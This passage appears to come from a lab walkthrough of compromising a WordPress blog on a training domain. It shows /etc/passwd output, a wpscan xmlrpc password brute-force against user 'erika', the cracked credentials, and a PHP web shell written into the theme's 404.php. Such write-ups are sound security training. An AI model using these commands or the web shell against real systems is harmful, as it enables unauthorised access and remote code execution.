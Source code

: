 ```
frank.mclane:x:1002:1002::/home/frank.mclane:/bin/bash
pollinate:x:103:1::/var/cache/pollinate:/bin/false
landscape:x:112:105::/var/lib/landscape:/usr/sbin/nologin
```

Answer is:

```
frank.mclane
```

#### Getting RCE

***

Now, our next step would be getting RCE, for this, we need some credentials, let's try brute forcing `erika`'s password:

```
wpscan --password-attack xmlrpc -t 50 -U erika -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

We get the following:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - erika / 010203                                                                             
Trying erika / kitkat Time: 00:00:20 <                         > (700 / 14345092)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: erika, Password: 010203

```

Got our credentials:

```
`erika`:`010203`
```

Now, let's log in:

![](gitbook/cybersecurity/images/Pasted%20image%2020250220144626.png)

Now we're in the admin panel, let's change the theme to a web shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250220144824.png)

Let's change the contents of `404.php` to:

```php
<?php

system($_GET['cmd']);
```

